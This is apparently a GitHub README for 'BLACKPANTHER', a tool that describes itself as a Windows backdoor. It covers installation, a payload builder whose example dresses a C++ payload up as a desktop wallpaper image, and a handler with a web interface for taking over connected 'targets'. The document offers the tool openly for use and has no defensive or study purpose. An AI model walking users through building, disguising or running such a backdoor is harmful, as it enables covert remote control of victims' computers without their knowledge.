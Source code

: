 ## BLACKPANTHER

- Windows Simple Backdoor

![Logo](./public/assets/bg.jpg)


## Installation

Install blackpanther with git

```bash
git clone https://github.com/madhanmaaz/blackpanther
```
```bash
cd blackpanther
```
Install dependencies
```bash
npm install
```
```bash
pip install -r requirements.txt
```

## Usage

- !!!!!!! `help` commnad to navigate all the options and settings

##### TO CREATE PAYLOAD
```bash
python bp-create.py
```
```

 ▄▄▄▄    ██▓    ▄▄▄       ▄████▄   ██ ▄█▀ ██▓███   ▄▄▄       ███▄    █ ▄▄▄█████▓ ██░ ██ ▓█████  ██▀███  
▓█████▄ ▓██▒   ▒████▄    ▒██▀ ▀█   ██▄█▒ ▓██░  ██▒▒████▄     ██ ▀█   █ ▓  ██▒ ▓▒▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▒ ▄██▒██░   ▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▓██░ ██▓▒▒██  ▀█▄  ▓██  ▀█ ██▒▒ ▓██░ ▒░▒██▀▀██░▒███   ▓██ ░▄█ ▒
▒██░█▀  ▒██░   ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▓██▒  ▐▌██▒░ ▓██▓ ░ ░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄  
░▓█  ▀█▓░██████▒▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄▒██▒ ░  ░ ▓█   ▓██▒▒██░   ▓██░  ▒██▒ ░ ░▓█▒░██▓░▒████▒░██▓ ▒██▒
░▒▓███▀▒░ ▒░▓  ░▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒   ▒ ░░    ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
▒░▒   ░ ░ ░ ▒  ░ ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░░▒ ░       ▒   ▒▒ ░░ ░░   ░ ▒░    ░     ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░    ░   ░ ░    ░   ▒   ░        ░ ░░ ░ ░░         ░   ▒      ░   ░ ░   ░       ░  ░░ ░   ░     ░░   ░ 
 ░          ░  ░     ░  ░░ ░      ░  ░                  ░  ░         ░           ░  ░  ░   ░  ░   ░     
      ░                  ░                                                           [CREATOR]
                                                                                     - Designed by madhan
                                                                                     - https://github.com/madhanmaaz 
                                                                                     - https://madhanmaaz.netlify.app

[CREATE]>
```

- commands
```bash
> help        list out help menu
> payloads    listout payloads
> goto <ID>   navigate into payload
> exit        exit app
```

- example
```python
[CREATE]> goto 0
+=== CPP-PAYLOAD PAYLOAD ===+
[CREATE/cpp-payload]> set origin https://example.com
[CREATE/cpp-payload]> set mediaurl https://wallpaper.com/a.jpg
[CREATE/cpp-payload]> set medianame wall.jpg
[CREATE/cpp-payload]> set filename desktopwallpaper
[CREATE/cpp-payload]> create -o
```

- To run server
```bash
npm run start
```

- Run handler
```bash
python bp-handler.py
```
- To boot interface
```bash

 ▄▄▄▄    ██▓    ▄▄▄       ▄████▄   ██ ▄█▀ ██▓███   ▄▄▄       ███▄    █ ▄▄▄█████▓ ██░ ██ ▓█████  ██▀███
▓█████▄ ▓██▒   ▒████▄    ▒██▀ ▀█   ██▄█▒ ▓██░  ██▒▒████▄     ██ ▀█   █ ▓  ██▒ ▓▒▓██░ ██▒▓█   ▀ ▓██ ▒ ██▒
▒██▒ ▄██▒██░   ▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▓██░ ██▓▒▒██  ▀█▄  ▓██  ▀█ ██▒▒ ▓██░ ▒░▒██▀▀██░▒███   ▓██ ░▄█ ▒
▒██░█▀  ▒██░   ░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▓██▒  ▐▌██▒░ ▓██▓ ░ ░▓█ ░██ ▒▓█  ▄ ▒██▀▀█▄
░▓█  ▀█▓░██████▒▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄▒██▒ ░  ░ ▓█   ▓██▒▒██░   ▓██░  ▒██▒ ░ ░▓█▒░██▓░▒████▒░██▓ ▒██▒
░▒▓███▀▒░ ▒░▓  ░▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ▒░   ▒ ▒   ▒ ░░    ▒ ░░▒░▒░░ ▒░ ░░ ▒▓ ░▒▓░
▒░▒   ░ ░ ░ ▒  ░ ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░░▒ ░       ▒   ▒▒ ░░ ░░   ░ ▒░    ░     ▒ ░▒░ ░ ░ ░  ░  ░▒ ░ ▒░
 ░    ░   ░ ░    ░   ▒   ░        ░ ░░ ░ ░░         ░   ▒      ░   ░ ░   ░       ░  ░░ ░   ░     ░░   ░
 ░          ░  ░     ░  ░░ ░      ░  ░                  ░  ░         ░           ░  ░  ░   ░  ░   ░
      ░                  ░                                                           [HANDLER]
                                                                                     - Designed by madhan
                                                                                     - https://github.com/madhanmaaz
                                                                                     - https://madhanmaaz.netlify.app

> help
=== MENU ===
> interface   boot interface
> stop        stop the server
> targets     show all targets
> goto <id>   go into the target
> help        help menu
> ^C          exit

> interface
```
- Now you can handle the connections from web interface
- otherwise you want to use terminal version. `help` command to navigate.
## Screenshots

![App Screenshot](./scr/scr-2.png)
![App Screenshot](./scr/scr-1.png)
![App Screenshot](./scr/scr-3.png)

